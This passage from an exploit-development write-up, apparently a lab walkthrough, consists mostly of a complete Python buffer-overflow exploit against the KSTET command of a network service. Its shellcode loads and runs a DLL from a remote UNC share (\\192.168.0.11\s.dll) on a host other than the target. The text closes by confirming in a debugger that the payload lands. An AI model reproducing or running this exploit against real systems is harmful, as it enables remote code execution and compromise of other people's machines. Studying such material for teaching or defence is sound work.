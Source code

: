 Our exploit now looks as follows:
```python
#!/usr/bin/python

import sys
import socket

shellcode = ""
shellcode += "\x83\xec\x7c" #sub esp,0x7c
shellcode += "\x56"
shellcode += "\x68\x6c\x6c\x20\x20"
shellcode += "\x68\x5c\x73\x2e\x64"
shellcode += "\x68\x31\x31\x5c\x73"
shellcode += "\x68\x38\x2e\x30\x2e"
shellcode += "\x68\x32\x2e\x31\x36"
shellcode += "\x68\x5c\x5c\x31\x39"
shellcode += "\x54"
shellcode += "\xB8\x9E\x9A\xE2\x77"
shellcode += "\xFF\xD0"

buf = "KSTET "
buf += "A"*2
buf += shellcode
buf += "A"*(68-len(shellcode))
buf += "\x0C\x10\x40" #eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.12",9999))
print s.recv(1024)
s.send(buf)
print s.recv(1024)
s.close()
```
When we send this off and set a breakpoint on `0040100C`, we see our breakpoint gets hit and our shellcode has landed nicely:
![nicelanding](/images/nicelandingcaptain.png)
